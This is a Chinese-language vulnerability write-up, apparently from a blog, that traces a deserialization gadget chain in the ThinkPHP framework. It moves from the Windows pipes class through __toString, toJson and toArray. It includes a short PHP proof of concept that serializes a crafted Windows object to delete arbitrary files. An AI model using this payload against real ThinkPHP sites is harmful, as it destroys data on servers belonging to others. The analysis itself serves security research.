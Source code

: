 ![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210926181426.png)

close没用，关闭一个打开的文件指针。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210926212152.png)

此处file是可控的，所以这里存在一个任意文件删除的漏洞。

POC:

	<?php

	namespace think\process\pipes;

	class Pipes
	{

	}

	class Windows extends Pipes
	{
		private $files = [];
		public function __construct(){
			$this->files=['需要删除文件的路径'];
			}
	}

	echo base64_encode(serialize(new Windows()));

file_exists函数会将filename当作字符串处理，这很容易联想到toString方法，

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210926215735.png)

全局搜索toString，找到\thinkphp\library\think\model\concern\Conversion.php中Conversion类的toString方法

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210926223351.png)

跟进toJson

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210926223940.png)

options为256，跟进toArray

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210927000425.png)

首先要明确我们要找的是什么，$可控变量->方法(参数可控)，图中箭头所指满足这个条件。append可控，所以relation也可控。

跟进getRelation方法看看有没有可利用的点：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210927001024.png)

key可控，所以name可控，可过第一个if。但是elseif里也无法利用。那么剩下的只有返回空。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210927003247.png)

满足if (!$relation)，跟进getAttr

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210927003432.png)
